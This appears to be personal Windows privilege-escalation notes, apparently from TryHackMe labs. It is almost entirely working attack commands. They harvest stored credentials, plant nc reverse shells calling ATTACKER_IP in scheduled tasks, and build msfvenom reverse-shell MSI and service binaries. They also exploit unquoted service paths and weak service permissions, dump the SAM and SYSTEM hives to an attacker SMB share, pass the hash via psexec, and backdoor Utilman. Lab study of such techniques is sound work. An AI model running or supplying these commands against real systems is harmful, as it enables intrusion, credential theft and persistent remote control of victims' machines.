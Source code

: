 #### Harvesting Password
  #### Powershell History　　－　in cmd
    type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
    // To read the file from Powershell, you'd have to replace %userprofile% with $Env:userprofile. 

  #### Saved Windows Credentials
    cmdkey /list
    //runas to view a username in the list, nad launch a cmd
    runas /savecred /user:xxx cmd.exe

  #### IIS Configuration
    type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString
    or C:\inetpub\wwwroot\web.config

  #### Retrieve Credentials from Software: PuTTY
    reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s  
      // Simon Tatham is the creator of PuTTY (and his name is part of the path), not the username for which we are retrieving the password. The stored proxy username should also be visible after running the command above.
  #### Scheduled Tasks
    schtasks
    schtasks /query /tn vulntask /fo list /v //to view a particular task

    icacls c:\tasks\xxx  //to view the privi, F is full access

    //if yes we can modify it as a backdoor,
    echo c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4444 > C:\tasks\schtask.bat
    schtasks /run /tn vulntask  //run immediately
  
  #### AlwaysInstallElevated  
    msi files can be configured to run with higher privileges from any user account (even unprivileged ones)
      //enable below 2 values
    C:\> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
    C:\> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
    //msf create revershell msi, should also run the Metasploit Handler module configured accordingly
    msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKING_MACHINE_IP LPORT=LOCAL_PORT -f msi -o malicious.msi

     msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi

  #### win service - insecure permission on sercie executable -- msf requied for creating a reverse shell file 
    sc qc xxx // to check info of a particular service, we'll have the binary file path, the executed accountname.
    icacls Path:\xxx  //check the privi of this binary file of this serviice

    msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4445 -f exe-service -o rev-svc.exe //create shell file and transfer to the host
    move C:\Users\thm-unpriv\rev-svc.exe WService.exe  //raap[lace the binary file
    icacls WService.exe /grant Everyone:F  // grant full privi 
    nc -nvlp xxxx 

    sc stop xxxservice
    sc start xxxservice  //restart this service to trigger shell // PowerShell has sc as an alias to Set-Content, therefore you need to use sc.exe in order to control services with PowerShell this way.

  #### win service - Unquoted Service Paths - msf requied for creating a reverse shell file 
    sc qc "disk sorter enterprise"  
      DISPLAY_NAME       : Disk Sorter Enterprise  //spaces on the name of the "Disk Sorter Enterprise" folder
      //SCM doesn't know which of the following you are trying to execute:C:\MyPrograms\Disk.exe plus  Argument1:Sorter plus Argument1:Enterprise\bin\disksrs.exe
      or C:\MyPrograms\Disk Sorter.exe  plus  Argument1:Enterprise\bin\disksrs.exe
      or C:\MyPrograms\Disk Sorter Enterprise\bin\disksrs.exe
    we put the revershell file on C:\\MyPrograms\\Disk.exe // we must have write privi to this path
     //most of the service executables will be installed under C:\Program Files or C:\Program Files (x86)
    //restart the service and get shell

   #### win service - Insecure Service Permissions -  msf requied for creating a reverse shell file 
     //check for a service DACL from the command line, you can use Accesschk.exe
       [4] ACCESS_ALLOWED_ACE_TYPE: BUILTIN\Users  //SERVICE_ALL_ACCESS permission, which means any user can reconfigure the service.
     accesschk64.exe -qlc xxx
     //generate reversehll file , grant privi,modify config of service 
     sc config THMService binPath= "C:\Users\thm-unpriv\rev-svc3.exe" obj= LocalSystem  // localsystem is high privi of a local host.
  #### Windows Privileges - SeBackup / SeRestore
    whoami /priv
      SeBackupPrivilege             Back up files and directories  Disabled
      SeRestorePrivilege            Restore files and directories  Disabled
    reg save hklm\system C:\Users\THMBackup\system.hive
    reg save hklm\sam C:\Users\THMBackup\sam.hive

    //on attack host, set a smb server
      impacket-smbserver -smb2support -username THMBackup -password CopyMaster555 public share  //make sure impacket installed on kali

    C:\> copy C:\Users\THMBackup\sam.hive \\ATTACKER_IP\public\
    C:\> copy C:\Users\THMBackup\system.hive \\ATTACKER_IP\public\

    impacket-secretsdump -sam sam.hive -system system.hive LOCAL
    impacket-psexec -hashes aad3b435b51404eeaad3b435b51404ee:13a04cdcf3f7ec41264e568127c5ca94 administrator@10.201.91.4

  #### Windows Privileges - SeTakeOwnership
    takeown /f C:\Windows\System32\Utilman.exe
    icacls C:\Windows\System32\Utilman.exe /grant THMTakeOwnership:F
    C:\Windows\System32\> copy cmd.exe utilman.exe
    //lock account, then click ease of access button , will get a shell with system
    
  
  #### Windows Privileges - SeImpersonate / SeAssignPrimaryToken
    RogueWinRM.exe -p "C:\tools\nc64.exe" -a "-e cmd.exe ATTACKER_IP 4442"
  #### app vuln
    wmic product get name,version,vendor //list apps
  #### win kernel CVE serach
    systeminfo > info.txt
    python3 windows-exploit-suggester.py  --database 2025-09-13-mssb.xlsx --systeminfo /tmp/info.txt
